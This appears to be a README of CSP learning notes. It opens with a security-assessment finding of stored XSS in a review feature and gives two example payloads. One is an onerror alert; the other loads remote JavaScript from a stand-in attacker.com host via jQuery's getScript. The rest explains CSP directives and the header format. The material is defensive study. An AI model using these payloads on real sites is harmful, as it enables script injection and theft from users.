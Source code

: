 ## Vulnerability details from the security assessment report

🐜 The **review features** is prone to a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored), via for example, the following payloads in the review body:

```html
<!-- Execute inline JS code -->
<img src='x' onerror='alert(1)'>
<!-- Execute a remotely loaded JS code leveraging a feature of JQuery -->
<img src='x' onerror='$.getScript(\"//attacker.com/evil.js\")'>
```

## Insights about CSP based on our learning

### General

> [!NOTE]
> 📚 [Source](https://report-uri.com/home/generate) used.

🔒 The CSP is a *HTTP response header* allowing to instruct the browser (user agent) on how to handle the resources (scripts, styles, fonts, etc.).

📑 Using a CSP **policy**, it is possible to act on the following aspect:

* Allowed sources for JavaScript scripts.
* Allowed sources for stylesheets.
* Allowed sources for images and favicons.
* Allowed sources for fonts loaded using `@font-face`.
* Allowed sources for fetch, `XMLHttpRequest`, `WebSocket` and `EventSource` connections.
* Allowed Source for `<audio>` and `<videos>` elements.
* Allowed sources for `<object>`, `<embed>` and `<applet>` elements.
* Allowed URLs from which resources may be prefetched or prerendered.
* Allowed sources for elements such as `<frame>` and `<iframe>`.
* Allowed sources for `Worker`, `SharedWorker` or `ServiceWorker`.
* Allowed parents that may embed a page using elements such as `<frame>` and `<iframe>`.
* Allowed  locations that can be used for `<form>` submissions.
* Forces a user agent to load all assets over HTTPS.
* Ensures that a resource disowns its opener when navigated to.
* Specifies which manifest can be applied to the resource.
* Specifies URIs that a user agent may use as the documents base URL for relative URIs.

😰 As such, it is a powerful security feature, however, it is tricky to correctly setup and as it is easy to break an application with CSP **policy**.

### Format

> [!NOTE]
> 📚 [Source](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) used.

📖 A CSP policy uses the following format:

```text
Content-Security-Policy: policy
```
